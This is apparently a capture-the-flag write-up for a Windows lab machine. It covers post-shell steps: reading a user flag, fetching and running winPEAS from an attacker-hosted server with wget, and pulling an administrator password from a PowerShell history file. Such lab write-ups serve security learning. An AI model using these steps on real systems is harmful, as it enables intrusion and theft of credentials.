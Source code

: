 ok we can execute commands on the machine , we have a shell.

So , now the path to the user flag is  this : 3e7b102e78218e935bf3f4951fec21a3

is on the path

cd \  
cd Users  
cd sql_svc  
cd Desktop  
type user.txt

## Here comes **Privilege Escalation** ##

We are going to use Winpeas

[https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

We downloaded it from github

Switch the cmd to powershell with the command "powershell"

and you can use curl to get the winpeas on that folder.

Now we need to put first a python server


```
wget http://10.10.16.3:8000/winPEASx64.exe -outfile winPEASx64.exe
```

now execute winpeas on the victim machine

./winPEAS64.exe


- Notice the file named “ConsoleHost_history.txt”. Let’s navigate to this file and see what’s in there.

cd \  
cd Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline  
type ConsoleHost_history.txt


```
File: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
We found this, there
```
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

```
